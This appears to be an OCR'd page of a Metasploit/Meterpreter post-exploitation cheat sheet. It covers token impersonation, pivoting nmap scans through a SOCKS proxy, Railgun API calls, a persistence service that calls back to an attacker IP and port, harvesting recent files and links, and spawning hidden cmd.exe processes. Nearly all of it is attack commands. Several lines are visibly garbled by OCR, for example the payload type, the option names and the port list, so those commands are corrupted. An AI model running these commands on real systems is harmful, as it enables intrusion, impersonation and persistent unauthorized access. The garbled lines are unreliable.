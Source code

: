 ### Impersonation token (removing the token will stop impersonation)

```text
use incognito
list tokens -u
impersonate token domain\\user
```

### Using nmap in meterpreter socks proxy

```text
1. msf sessions #Note Meterpreter ID
2. msf route add 3.3.3.0 255.255.255.0 id
3. msf use auxiliary/server/socks4a
4. msf run
5. Open a new shell and edit /etc/proxychains.conf
i. #proxy_dns
ii. #socks4 127.0.0.1 9050
iii. socks4 1.1.1.1 1080
6. Save and close the conf file
7. proxychains nmap -sT -Pn -p80,:35,s45 3.3.3.3
```

### Railgun - api related to displaying specific messages

```text
meterprete irb
client.railgun.user32.MessageBoxA(O,"got","YOU","MB_OK")
```

### Creating a stable Windows service

```text
msf use post/windows/manage/persistence
msf set LHOST attack ip
msf set LPORT callback port
msf set PAYLOAD_TYPE TCPIHTTPIHTPS
msf set REXENAHE filename
msf set SESSION meterpreter session id
msf set STARTUP SERVICE
```

### Collect the latest requested files and web links

```text
meterpreter run post/windows/gather/dumplinks
```

### Create a new process and command tree c:\

```text
execute -H -f cmd.exe -a '/c tree /F /A c:\ C:\temp\tree.txt'
```
